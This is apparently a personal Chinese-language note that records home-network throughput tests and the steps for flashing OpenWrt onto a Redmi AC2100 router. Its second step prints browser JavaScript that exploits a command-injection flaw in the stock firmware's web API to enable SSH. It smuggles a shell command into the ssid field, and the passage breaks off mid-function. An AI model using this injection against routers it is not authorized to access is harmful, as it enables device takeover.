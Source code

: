 | mi4a交换性能  | ryzen - mi4a - p2w | ryzen     | p2w   | **943**     | 结果居然比ryzen - mi4a还要快！ |

将r4a替换掉后
| 测试目的 | src       | dst       | speed(Mb/s) | 备注 |
| -------- | --------- | --------- | ----------- | ---- |
| p2w      | ryzen     | p2w       | **936**     |      |
|          | p2w       | ryzen     | ***577***   |      |
| 隧道性能 | p2w       | ax6s      | 150         |      |
|          | ax6s      | p2w       | 250         |      |
| 隧道性能 | ryzen     | tianyi310 | **295**     |      |
|          | tianyi310 | ryzen     | **173**     |      |
|          | s3pro     | ryzen     | 256         |      |
| 780/886  | s3pro     | p2w       | **370**     |      |
|          | ryzen     | s3pro     | 274         |      |

## 具体型号刷机过程

### Redmi AC2100刷Openwrt

[[OpenWrt Wiki] Xiaomi Redmi Router AC2100](https://openwrt.org/toh/xiaomi/xiaomi_redmi_router_ac2100)

#### 1. 确认stock系统版本

确认系统版本是否为2.0.23，如果不是，则在系统内手动升级到该版本http://cdn.cnbj1.fds.api.mi-img.com/xiaoqiang/rom/rm2100/miwifi_rm2100_all_fb720_2.0.23.bin

#### 2. 获得ssh

使用web漏洞，获得ssh

```js
// Work for RedMi 2100 firmware 2.0.23
// http://cdn.cnbj1.fds.api.mi-img.com/xiaoqiang/rom/rm2100/miwifi_rm2100_all_fb720_2.0.23.bin

function getSTOK() {
    let match = location.href.match(/;stok=(.*?)\//);
    if (!match) {
        return null;
    }
    return match[1];
}

function execute(stok, command) {
    command = encodeURIComponent(command);
    let path = `/cgi-bin/luci/;stok=${stok}/api/misystem/set_config_iotdev?bssid=SteelyWing&user_id=SteelyWing&ssid=-h%0A${command}%0A`;
    console.log(path);
    return fetch(new Request(location.origin + path));
}

function enableSSH() {
    stok = getSTOK();
    if (!stok) {
        console.error('stok not found in URL');
        return;
    }
    console.log(`stok = "${stok}"`);
```